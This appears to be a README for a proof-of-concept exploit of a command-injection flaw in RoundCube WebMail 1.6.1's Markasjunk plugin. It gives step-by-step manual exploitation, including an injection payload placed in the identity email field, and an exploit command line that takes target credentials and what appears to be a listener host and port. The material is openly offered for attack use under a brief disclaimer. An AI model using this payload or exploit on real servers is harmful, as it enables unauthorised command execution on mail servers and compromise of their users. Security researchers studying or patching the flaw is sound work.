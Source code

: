 # RoundCube WebMail 1.6.1 - Markasjunk Vulnerability PoC

## Overview

This repository contains a Proof of Concept (PoC) for the `Markasjunk` plugin vulnerability in RoundCube WebMail version 1.6.1 (Used version for test). The vulnerability allows an attacker to execute arbitrary commands due to improper filtering of user inputs.

## Prerequisites

- Access as User (got credentials!)

## Manual Proof of Concept

1. Log in to the RoundCube WebMail interface.
2. Navigate to `Settings -> Identities`.
3. Modify the email address to include the payload:
    ```
    pwn&touch${IFS}test.txt&@pwn.com
    ```
4. Move any email to the "junk folder".
5. Verify that the command has been executed by checking for the presence of `test.txt` in the server's file system.
   [Reference](https://cyberthint.io/roundcube-markasjunk-command-injection-vulnerability/)

## Exploit use example

This PoC is for educational purposes only. Use it at your own risk. The author is not responsible for any damage caused by the misuse of this information.
```
./exploit vulnerablehost.com pwned@user.pwn PwnPassword! 127.0.0.1 1337
```

## PoC
[![](http://markdown-videos-api.jorgenkh.no/youtube/EmNSJb26hMA)](https://youtu.be/EmNSJb26hMA)
